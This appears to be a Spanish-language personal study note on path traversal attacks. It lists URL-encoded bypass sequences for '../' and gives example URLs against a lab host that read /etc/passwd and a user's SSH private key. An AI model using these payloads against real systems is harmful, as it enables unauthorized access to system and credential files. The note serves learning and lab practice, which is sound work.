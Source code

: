 el path traversal también denominado ataque de recorrido de ruta es una vulnerabilidad que tiene como objetivo acceder a archivos y directorios fuera de la carpeta web. al manipular archivos con secuencias ./ ./ ./ y sus variaciones o mediante el uso de rutas de archivo absolutas es posible acceder a archivos y directorios de forma arbitraria incluso el código fuente de la aplicación o configuraciones criticas del sistema.
otros nombres para este ataque son : recorrido de directorio, escalada de directorio.

algunos de los Bypass mas comunes para este ataque son :


    %2e%2e%2f representa ../
    %2e%2e/ representa ../
    ..%2f representa ../
    %2e%2e%5c representa ..\
    %2e%2e\ representa ..\
    ..%5c representa ..\
    %252e%252e%255c representa ..\
    ..%255c representa ..\
para tener un ejemplo de este ataque puede considerarse la siguiente URL
	http://10.0.2.11/football/index.php?view=../../../../../../../etc/passwd
	![[Pasted image 20240521223406.png]]
	
en donde esta dando acceso a la carpeta passwd donde se almacenan los usuarios. aquí otro ejemplo de la gravedad
 http://10.0.2.11/football/index.php?view=../../../../../../../home/manolo/.ssh/id_rsa
 ![[Pasted image 20240521223540.png]]
 con esta vulnerabilidad se puede tener acceso a archivos sensibles de configuración, bases de datos o configuración y archivos del sistema 
si esta vulnerabilidad existe es posible encontrarse con [[18-Local File Inclusión]] 